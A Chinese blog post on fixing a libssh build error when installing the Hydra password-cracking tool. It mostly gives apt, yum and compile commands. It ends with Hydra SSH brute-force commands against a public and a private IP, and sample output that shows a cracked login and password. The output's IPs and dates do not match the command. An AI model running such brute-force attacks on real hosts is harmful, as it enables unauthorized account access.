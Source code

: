 ```yaml
---
layout: post
category: binghe-code-hack
title: Hydra安装报错
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Hydra安装报错
lock: need
---
```


# Hydra安装报错

注：大家可以到链接[https://download.csdn.net/download/l1028386804/10902002](https://download.csdn.net/download/l1028386804/10902002 ) 下载Hydra一键安装包，内含冰河亲做一键安装脚本，直接运行即可。

在我们安装Hydra的过程中，可能会出现如下错误：

```bash
[ERROR] Compiled without LIBSSH v0.4.x support, module is not available!
```

下面，就如何安装Hydra和解决上述问题，冰河将方法分享出来：

如何装libssh呢?方法如下:

## 方法一、支持apt-get的话

```bash
apt-get purge hydra
apt-get install cmake libssl-dev
```

## 方法二、编译安装

**libssh**

```bash
wget http://www.libssh.org/files/0.4/libssh-0.4.8.tar.gz
tar zxf libssh-0.4.8.tar.gz
cd libssh-0.4.8
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=/usr -DCMAKE_BUILD_TYPE=Debug -DWITH_SSH1=ON ..
make
make install
```

**hydra**

```bash
yum -y install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel libncurses-devel
wget http://www.thc.org/releases/hydra-7.4.2.tar.gz
tar zxvf hydra-7.4.2.tar.gz
cd hydra
./configure
make && make install
```

安装过程中如果出现如下错误：

```bash
hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory
```

安装locate命令

```bash
# yum install mlocate
# updatedb
```

之后查看libssh.so.4的在系统中的位置

```bash
[root@liuyazhuang ~]# locate libssh.so.4
/usr/lib/libssh.so.4
/usr/lib/libssh.so.4.1.4
```

接着执行如下命令，即可解决问题：

```bash
[root@liuyazhuang lib64]# ln -s /usr/lib/libssh.so.4.1.4 /usr/lib64/libssh.so.4
```

Hydra用法实例：

```bash
[root@liuyazhuang ~]# hydra -L u.lst -P p.lst -t 1 -vV -e ns 123.242.11.186 ssh
Hydra v7.4.2 (c)2012 by van Hauser/THC & David Maciejak - for legal purposes only
Hydra (http://www.thc.org/thc-hydra) starting at 2013-06-10 00:05:24
[DATA] 1 task, 1 server, 3 login tries (l:1/p:3), ~3 tries per task
[DATA] attacking service ssh on port 22
[VERBOSE] Resolving addresses ... done
[ATTEMPT] target 123.222.11.186 - login "lyz" - pass "lyz" - 1 of 3 [child 0]
[ATTEMPT] target 123.222.11.186 - login "lyz" - pass "" - 2 of 3 [child 0]
[ATTEMPT] target 123.222.11.186 - login "lyz" - pass "wei123hu" - 3 of 3 [child 0]
[22][ssh] host: 123.222.11.186   login: lyz   password: wei123hu
[STATUS] attack finished for 123.222.11.186 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-01-06 00:05:27
```

也可以使用 -o 选项指定结果输出文件。

```bash
# hydra -L users.txt -P password.txt -t 1 -vV -e ns -o save.log 192.168.1.104 ssh
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
